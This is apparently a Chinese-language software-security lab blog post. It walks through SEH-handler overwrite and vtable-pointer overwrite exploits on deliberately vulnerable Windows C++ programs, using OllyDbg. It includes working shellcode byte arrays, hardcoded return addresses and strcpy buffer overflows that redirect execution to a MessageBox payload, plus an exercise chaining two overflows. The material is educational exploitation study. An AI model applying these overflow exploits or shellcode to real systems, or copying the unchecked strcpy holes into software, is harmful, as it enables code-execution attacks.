 ```yaml
---
title: 虚函数攻击与SEH date: 2019-12-12 23:12:35 tags:

- "网络空间安全"
- "软件安全"
  categories:
- ["实验","软件安全"]
- ["漏洞","SEH"]
- ["漏洞","虚函数"]
  comments: true

---
```


## 目标

了解SEH和虚函数攻击两种攻击方式，通过调试代码来理解进行上述攻击的过程。
<!-- more -->

## 测试步骤与结果

### SEH攻击

```c++ main.cpp
#include<windows.h>
#include<string>
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x48\xFE\x12\x00";
void MyExceptionHandler(void)
{
	printf("got an exception,press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
}
void test(char* input)
{
	char buf[200];
	//printf("%d",strlen(shellcode));
	int zero=0;
	__asm int 3
	__try
	{
		strcpy(buf,input);
		zero=4/zero;
	}
	__except(MyExceptionHandler()){}
}
int main()
{
	LoadLibrary("user32.dll");
	test(shellcode);
	//test("abc");
	system("pause");
	return 0;
}
```

在此实验中，我们定义了一个自定义的错误处理函数`MyExceptionHandler()`，可以观察到，`__try`中试图除零，因此引发了一个异常，这个异常将由我们自定义的错误处理函数处理。如果`strcpy`
操作溢出了，并精确地将栈帧中的SEH异常处理句柄修改为`shellcode`的入口地址时，操作系统将会错误地使用shellcode去处理除0异常，代码植入成功。 {% note info %} 前面的<code>__asm int
3</code>是为了使得调试器能够以attach的方式进行调试。 {% endnote %}

1. 在ollydbg端完成实时调试配置，将它设置为实时调试器。 {% asset_img 1.png %}
2. 启动程序，在运行到int 3断点时成功进入ollydbg中。 {% note warning %} 初次进入时可能会有这个错误，设置一下udd和plugins的目录即可。 {% asset_img 2.png %} {%
   asset_img 3.png %} {% endnote %}
3. 找到`strcpy`函数，并为其设置一个断点。 {% asset_img 4.png "可以看到这是在401158处" %} {% asset_img 5.png %}
4. 此时可以观察到shellcode的起始地址为`0x12fe48`。 {% asset_img 6.png %}
5. 触发异常时，我们查看SEH链：（查看→SEH链） {% grouppicture 2-2 %} {% asset_img 7.png %} {% asset_img 8.png %} {% endgrouppicture %}
6. 上方的第一个地址指向了下一个SEH记录：`0x12ffb0`。接着是SEH异常处理程序，我们只要把`0x12ff1c`的内容改成shellcode的起始地址就可以了。
7. 第一个SEH地址是`0x12ff18`，异常处理地址是`0x12ff1c`，我们的shellcode应该填充这些差值空间，总共有212个字节（0x12ff1c-0x12ff18） {% note success no-icon %}
   回头看一眼我们要填入的shellcode，最后四字节(<code>\x48\xFE\x12\x00</code>)恰好是shellcode的起始地址！ {% endnote %}
8. 去掉系统中断（`asm int 3`）后的运行效果如下，弹出对话框正是shellcode预期的功能。 {% asset_img 9.png %}

### 虚函数攻击

{% codeblock main.cpp lang:cpp %}

# include <windows.h>

# include <iostream.h>

char shellcode1[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53"
"\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x5C\xE3\x42\x00";

class vf{ public:
char buf[200]; virtual void test(void)
{ cout<<"Class Vtable::test()"<<endl; } }; vf overflow, *p; void main(void)
{ LoadLibrary("user32.dll"); char * p_vtable; p_vtable=overflow.buf-4; //point to virtual table //__asm int 3 //reset
fake virtual table to 0x004088cc //the address may need to adjusted via runtime debug p_vtable[0]=0x30; p_vtable[1]
=0xE4; p_vtable[2]=0x42; p_vtable[3]=0x00; strcpy(overflow.buf,shellcode1);//set fake virtual function pointer
p=&overflow; p->test(); } {% endcodeblock %}

1. 在`strcpy`处可能会触发溢出，修改虚函数指针。`Vtable`的值需要经过一次调试才可得知。 {% asset_img 10.png %} {% asset_img 11.png %}

从这两张图可以看出，缓冲区的入口为`0x0042e35c`。虚表指针位于缓冲区前，`p_vtable`定位到了这个指针，它指向了`0x0042e358`处，进一步证明缓冲区入口正确。

2. Shellcode的末尾后四个字节地址应该是`0x0042E430`。 {% asset_img 12.png %}

3. 更换shellcode和地址后，成功弹框，shellcode成功执行。 {% asset_img 13.png %}

## 测试结论

{% grouppicture 2-2 %} {% asset_img SEH.jpg "SEH异常处理攻击图示" %} {% asset_img vf.jpg "虚函数攻击图示" %} {% endgrouppicture %}

## 思考题

{% codeblock lang:cpp %}

# include <windows.h>

# include <iostream.h>

# include <stdio.h>

class vf { public:
char buf[200]; virtual void test(void)
{ cout<<"Class Vtable::test()"<<endl; } };

class vf1 { public:
char buf[64]; virtual void test(void)
{ cout<<"Class Vtable1::test()"<<endl; } }; vf overflow, *p; vf1 overflow1, *p1; void main(int argc, char* argv[])
{ LoadLibrary("user32.dll");

	//char * p_vtable;
	//p_vtable=overflow.buf-4;//point to virtual table

//    __asm int 3 //reset fake virtual table to 0x004088cc //the address may need to adjusted via runtime debug
//p_vtable[0]=0x30; //p_vtable[1]=0xE4; //p_vtable[2]=0x42; //p_vtable[3]=0x00;

	if (argc == 3)
	{
		strcpy(overflow.buf,argv[1]);
		strcpy(overflow1.buf,argv[2]);//set fake virtual function pointer
		p=&overflow;
		p->test();

	}
	else
	{
		printf("vf argv1 argv2\n");

	}

} {% endcodeblock %}

1. 这应该是利用虚函数攻击的一个例子。其中定义了两个类：`vf`和v`f1`，`vf`具有200字节的`buf`大小，而`vf1`具有64字节的`buf`大小。我们需要提供两个参数，一个复制到`vf`的`buf`区，另一个复制到`vf1`
   的`buf`区中，要通过`vf`类的`test`方法调用shellcode。 {% asset_img 思考1.png %}
2. `argv[1]`被复制到`overflow.buf`中，起始地址为`0x42eb5c`。算出其终止地址应为`0x42ec20`。 {% asset_img 思考2.png %} {% asset_img 思考3.png "
   前面四个字节0x0042801c应该是vtable的地址，一会我们要覆盖掉它" %}

3. 第二个`strcpy`时，将第二个参数拷贝到`overflow1.buf`中，其首地址为`0x42eb14`，在`overflow`上方，我们想到应该可以利用这个关系，溢出这个64字节的`buf`，覆盖掉`vtable`
   ，让其调用shellcode {% asset_img 思考4.png %} {% asset_img 思考5.png %}

4. 构造shellcode如下，其中插入`vf`中的shellcode1写入弹框代码，插入`vf1`中的shellcode2向下覆盖掉`vf1`的`vtable`
   ，变为shellcode1的尾地址，而令shellcode1中最后四字节为shellcode第一个指令的地址（即`overflow.buf`的起始位置）。在这个构造下，可以成功执行shellcode，以弹出对话框。 {%
   grouppicture 2-2 %} {% asset_img argv[1].png "argv[1]" %} {% asset_img argv[2].png "argv[2]" %} {% endgrouppicture %}
   {% asset_img 思考8.png %}

5. 利用成功截图。 {% asset_img 思考9.png %}
